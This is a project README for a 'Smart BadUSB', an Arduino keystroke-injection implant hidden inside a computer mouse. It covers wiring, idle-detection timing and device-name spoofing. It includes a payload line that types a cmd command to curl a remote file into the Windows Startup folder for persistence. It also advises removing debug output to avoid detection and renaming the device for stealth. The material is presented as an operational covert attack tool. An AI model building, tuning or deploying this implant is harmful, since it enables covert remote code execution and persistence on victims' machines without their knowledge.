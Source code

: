 <h1>Smart BadUSB Project</h1>

<img src="https://github.com/BhawksGit/SmartBadUSB/blob/main/images/titleSlide.png?raw=true" alt="Smart BadUSB Title Slide">

<h2>Project Overview</h2>
<p>The Smart BadUSB is a modified USB device that mimics a keyboard but is embedded within a standard USB computer mouse. It executes a malicious payload when connected to a host computer without any obvious signs of its presence, making it more discreet than a traditional BadUSB device.</p>

<h2>Key Features</h2>
<ul>
    <li>Detection of the host operating system using HID protocol.</li>
    <li>Use of a photodiode to check for mouse LED activity to determine the best time to execute the payload.</li>
    <li>Self-destruct feature that disables the Arduino after successful payload execution.</li>
</ul>

<h2>Hardware Requirements</h2>
<ul>
    <li>Arduino Pro Micro</li>
    <li>USB 2.0 Expansion Module</li>
    <li>5mm Photodiode</li>
    <li>120 Ohm Resistor</li>
    <li>26 AWG or similar Wire</li>
    <li>Micro USB Solderable Plug or a spliced phone cable</li>
    <li>Soldering Iron & Solder</li>
</ul>

<h2>Wiring How-To</h2>
<p>This section provides detailed, step-by-step instructions on how to integrate the Arduino into the mouse hardware along with a USB hub and a photodiode. Follow these steps carefully, and refer to the wiring diagram for visual guidance.</p>

<ol>
    <li><strong>Preparing the Mouse Cable:</strong> Remove the USB connector from the mouse motherboard. Cut off the end connector, then strip the four wires (data+, data-, positive, and ground).</li>
    <li><strong>Wiring the Mouse to the USB Hub:</strong> Connect these four wires to the USB_IN line on the USB hub, labeled on the back side of the hub. Ensure the connections match the standard USB layout:
        <ul>
            <li><strong>Red:</strong> Positive wire, carries 5V direct current.</li>
            <li><strong>Black:</strong> Ground wire.</li>
            <li><strong>White:</strong> Positive data (D+).</li>
            <li><strong>Green:</strong> Negative data (D-).</li>
        </ul>
    </li>
    <li><strong>Connecting the Arduino:</strong> Solder four wires to a micro USB solderable plug and connect these wires to another set of USB pins on the USB hub. Be mindful of matching the wire connections correctly. Connect the micro USB plug to the Arduino.</li>
    <li><strong>Reconnecting the Mouse USB:</strong> Solder four additional wires to the bottom pads where the USB connector was originally attached to the mouse, and connect these wires to another set of USB pins on the USB hub. Ensure correct wiring alignment.</li>
    <li><strong>Wiring the Photodiode:</strong> Solder the positive lead of the photodiode (the longer one) to a 120-ohm resistor, then connect this lead to pin A2 on the Arduino. Solder the other, shorter side of the photodiode to ground.</li>
    <li><strong>Positioning the Photodiode:</strong> Position the photodiode so that its top faces the internal mouse LED to capture lighting changes. Adjust the <code>activeSensorValue</code> based on the brightness of the LED, which may vary between mouse models. This adjustment can be made by adding a serial debug statement to continuously print out the sensor value.</li>
    <li><strong>Securing Components:</strong> Glue the components in place atop the mouse motherboard. Depending on the mouse model, you may need to modify the plastic housing inside the mouse (using clippers or a Dremel) to accommodate the new components.</li>
</ol>

<p>Ensure all connections are secure and double-check for any potential shorts. For more clarity, see the included wiring diagram:</p>
<img src="https://github.com/BhawksGit/SmartBadUSB/blob/main/images/wiring.png?raw=true" alt="Wiring Diagram">

<h2>Using the Program</h2>
<p>This program is designed to operate with specific pin settings and timing variables to effectively deploy a payload on Windows systems. Below are instructions on how to adjust key parameters and deploy the payload safely and effectively.</p>

<h3>Pin Configuration</h3>
<p>Do not change the pin configuration unless necessary, as they are set to match the hardware setup:</p>
<ul>
    <li><strong>photoTransistorPin</strong>: Analog pin A2, used for the phototransistor sensor.</li>
    <li><strong>VCCPin</strong>: Digital pin 15, used as VCC.</li>
    <li><strong>GNDPin</strong>: Digital pin 16, used as ground.</li>
</ul>

<h3>Timing Variables</h3>
<p>Adjust the following timing variables based on the environmental conditions and the Windows system you are targeting:</p>
<ul>
    <li><strong>interval</strong> (500 ms): Frequency at which the sensor checks are performed.</li>
    <li><strong>bootTime</strong> (5000 ms): Wait time after the device is powered on, allowing the PC to boot.</li>
    <li><strong>inactiveTime</strong> (5000 ms): Duration to consider the mouse inactive if no movement is detected.</li>
    <li><strong>lockToCoverScreenTime</strong> (65000 ms): Time to wait for the Windows lock screen to revert to the cover screen.</li>
    <li><strong>activeSensorCount</strong> (500): Count of sensor readings indicating active mouse usage before considering the mouse active.</li>
    <li><strong>activeSensorValue</strong> (1016): Sensor reading threshold to determine mouse activity. Adjust based on your phototransistor's sensitivity.</li>
</ul>

<h3>Payload Execution</h3>
<p>To modify the payload, alter the command within the <code>executePayload</code> function:</p>
<pre>
Keyboard.print("cmd /c curl -L URL -o \"%APPDATA%/Microsoft/Windows/Start Menu/Programs/Startup/Pagefile.vbs\" >nul 2>&1");
</pre>
<p>Replace the URL and file path as needed for your specific payload. Ensure that the commands are compatible with the Windows command line interface.</p>
<h3>Operational Flow</h3>
<p>Upon startup, the device checks if it has executed the payload previously through EEPROM state checking. If the payload has not been executed, it continues with the boot process, waiting for the PC to boot, and detecting mouse and system activity to determine the optimal time to deploy the payload.</p>

<h3>Compatibility</h3>
<p>Currently, this program is designed to work exclusively with Windows-based systems. It leverages specific Windows features, such as the "Run" dialog and keyboard shortcuts, to execute its payload effectively.</p>
<p>Support for Mac and Linux systems is under development, focusing on adapting to different system behaviors and command execution methods specific to these platforms.</p>

<h3>Resetting the Device</h3>
<p>If you need to reset the device and clear the EEPROM:</p>
<pre>
// To reset the EEPROM, short pin 8 to ground momentarily. This clears the flag and allows the payload to be executed again.
EEPROM.write(0, 0);
</pre>

<h3>Debugging</h3>
<p>For debugging purposes, use the serial output to monitor the status and operation of the device. Ensure to disable or remove serial debugging in the final deployment to avoid detection.</p>

<h2>Renaming the Arduino Device for Obfuscation</h2>
<p>To further disguise your Smart BadUSB device, you can rename its identification to something less suspicious, such as "USB Device". This process involves using the Musinou hardware library to customize the USB device name.</p>

<h3>Steps to Rename Your Arduino Device:</h3>
<ol>
    <li><p><strong>Download the Musinou Hardware Library:</strong> Download and extract the Musinou hardware configuration files from <a href="https://liveelectronics.musinou.net/code/mididevicename/">this link</a> and place them under <code>/Users/username/Documents/Arduino/hardware/</code> on your computer.</p></li>
    <li><p><strong>Modify Device Settings:</strong> Close your Arduino IDE if it's open. Navigate to <code>/Users/username/Documents/Arduino/hardware/musinou/avr/</code> and open the <code>boards.txt</code> file. Locate the lines for your Arduino model, for example:</p>
        <pre>
micromusinou.build.vid=0x2340
micromusinou.build.pid=0x8030
micromusinou.build.usb_product="Arduino Micro Musinou"
	</pre>
        <p>Change the <code>usb_product</code> value to a generic name, in this case we'll make it "USB Device".</p>
    </li>
    <li><p><strong>Save Changes and Reopen the IDE:</strong> Save the modified <code>boards.txt</code> file. Reopen the Arduino IDE, and select "USB Device" as the board.</p></li>
    <li><p><strong>Upload Your Code:</strong> Upload your existing Smart BadUSB code to the Arduino. This process will install the code under the new device name, making it appear as a generic "USB Device" in system reports and connected devices lists.</p></li>
    <li><p><strong>Verify Device Name:</strong> Connect the Arduino to a computer. The device should now display with the new name "USB Device".</p></li>
</ol>

<p>This renaming technique adds an extra layer of stealth, making the Smart BadUSB less noticeable and suspicious when connected to a host computer.</p>

<h2>Installation and Setup</h2>
<p>Refer to the Arduino IDE for uploading the provided <code>SmartBadUSB_Program_Arduino_Pro_Micro.ino</code> script to the Arduino Pro Micro. Detailed wiring instructions and setup procedures can be found in the documentation linked below.</p>
<a href="https://github.com/BhawksGit/SmartBadUSB">GitHub Repository</a>

<p>Thank you for exploring the Smart BadUSB project. For more information or to contribute, please visit the GitHub repository linked above.</p>
